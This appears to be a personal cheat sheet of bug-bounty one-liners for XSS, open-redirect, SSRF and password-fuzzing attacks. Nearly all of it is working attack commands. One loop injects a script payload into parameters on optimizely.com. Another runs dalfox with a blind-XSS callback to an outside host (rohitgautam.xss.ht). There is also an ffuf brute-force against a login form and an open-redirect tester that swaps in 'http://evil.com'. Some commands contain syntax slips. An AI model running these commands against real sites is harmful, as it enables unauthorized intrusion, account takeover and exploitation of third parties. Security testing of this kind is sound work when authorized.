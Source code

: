 














python3 paramspider.py -d optimizely.com --subs false --placeholder '"/><script>confirm(1)</script>' > optimizely.txt | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done







5 : hakrawler -plain -usewayback -wayback -url testphp.vulnweb.com | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | dalfox pipe -b https://rohitgautam.xss.ht -o out.txt


6.  cat bentley.json | while read host do; do ffuf -u http://$host/FUZZ -w spring.txt  -t 500 -c mc 200,403| tee $hostffuf.json;done

7.  cat testphp1.txt| kxss








<iframe style="width:80%;height:600px;" src="https://web.archive.org/web/sitemap/https://hackerone.com"></iframe>


https://web.archive.org/web/timemap/json?url=hackerone.com/&fl=timestamp:4,original,urlkey&matchType=prefix&filter=statuscode:200&filter=mimetype:text/html&collapse=urlkey&collapse=timestamp:4&limit=100000




One Liner for FUZZ : -


$ ffuf -w /path/to/postdata.txt -X POST -d "username=admin\&password=FUZZ" -u https://target/login.php -fc 401	


One Liner for OR / SSRF :- 



cat /Users/rohit/Tools/hacks/bodhi/lewayback_params.txt   | head -n 5000 > google.txt; cat google.txt | sort -u | grep -a -i \=http | tee -a potential_ssrf.txt



One Liner for Open redirect :- 

waybackurls testphp.vulnweb.com   | head -n 5000 > google.txt; 	cat google.txt | sort -u | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L  $host -I|grep "evil.com" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
